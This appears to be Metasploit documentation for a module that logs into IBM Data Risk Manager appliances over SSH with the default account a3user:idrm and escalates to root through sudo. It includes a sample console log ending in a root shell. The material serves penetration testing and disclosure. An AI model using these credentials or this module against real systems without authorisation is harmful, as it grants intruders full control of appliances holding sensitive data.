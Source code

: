 ## Vulnerable Application

This module abuses a known default password in IBM Data Risk Manager. The 'a3user' has the default password 'idrm' and allows an attacker to log in to the virtual appliance via SSH. 
This can be escalated to full root access, as 'a3user' has `sudo` access with the default password.
At the time of disclosure, this is a 0day. Versions <= 2.0.3 are confirmed to be affected, and the latest 2.0.6 is most likely affected too.

### Vulnerability information
For more information about the vulnerability, check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS`!

## Scenarios

A successful exploit will look like this:

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > run
[*] 10.22.22.212:22 - Attempting to login to the IBM Data Risk Manager appliance...
[+] 10.22.22.212:22 - Login Successful (a3user:idrm)
[*] Found shell.
[*] Command shell session 5 opened (10.22.22.1:45489 -> 10.22.22.212:22) at 2020-04-22 12:10:13 +0700
[*] 10.22.22.212:22 - Escalating privileges to root, please wait a few seconds...
[+] 10.22.22.212:22 - Done, enjoy your root shell!
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
